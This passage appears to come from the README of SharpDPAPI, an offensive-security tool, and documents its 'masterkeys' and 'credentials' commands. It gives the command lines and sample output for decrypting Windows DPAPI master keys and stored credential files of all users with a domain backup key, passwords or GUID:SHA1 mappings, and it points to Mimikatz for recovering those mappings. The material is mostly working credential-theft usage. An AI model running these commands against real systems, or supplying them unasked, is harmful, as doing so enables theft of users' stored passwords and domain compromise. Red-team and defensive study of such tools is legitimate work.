 The domain backup key can be in base64 form (`/pvk:BASE64...`) or file form (`/pvk:key.pvk`).

    C:\Temp>SharpDPAPI.exe masterkeys /pvk:key.pvk

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Triage User Masterkey Files

    [*] Found MasterKey : C:\Users\admin\AppData\Roaming\Microsoft\Protect\S-1-5-21-1473254003-2681465353-4059813368-1000\28678d89-678a-404f-a197-f4186315c4fa
    [*] Found MasterKey : C:\Users\harmj0y\AppData\Roaming\Microsoft\Protect\S-1-5-21-883232822-274137685-4173207997-1111\3858b304-37e5-48aa-afa2-87aced61921a
    ...(snip)...

    [*] User master key cache:

    {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316...(snip)...
    ...(snip)...


#### credentials

The **credentials** command will search for Credential files and either a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

A specific credential file (or folder of credentials) can be specified with `/target:FILE` or `/target:C:\Folder\`. If a file is specified, {GUID}:SHA1 values are required, and if a folder is specified either a) {GUID}:SHA1 values must be supplied or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

If run from an elevated context, Credential files for ALL users will be triaged, otherwise only Credential files for the current user will be processed.

Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp>SharpDPAPI.exe credentials {44ca9f3a-9097-455e-94d0-d91de951c097}:9b049ce6918ab89937687...(snip)... {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}:f9bc09dad3bc2cd00efd903...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: User DPAPI Credential Triage

    [*] Triaging Credentials for ALL users

